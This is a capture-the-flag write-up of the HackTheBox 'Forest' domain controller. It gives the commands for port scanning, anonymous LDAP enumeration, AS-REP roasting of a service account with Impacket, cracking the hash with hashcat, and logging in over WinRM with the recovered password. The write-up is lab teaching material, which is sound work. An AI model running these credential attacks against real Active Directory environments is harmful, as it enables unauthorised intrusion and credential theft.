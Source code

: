 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md)
* [DCSync attack](../../windows/credential-access/os-credential-dumping/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
...
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49702/tcp open  unknown
50008/tcp open  unknown
64429/tcp open  unknown
...
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../images/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><img src="../../.gitbook/assets/圖片 (3) (2).png" alt=""><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```
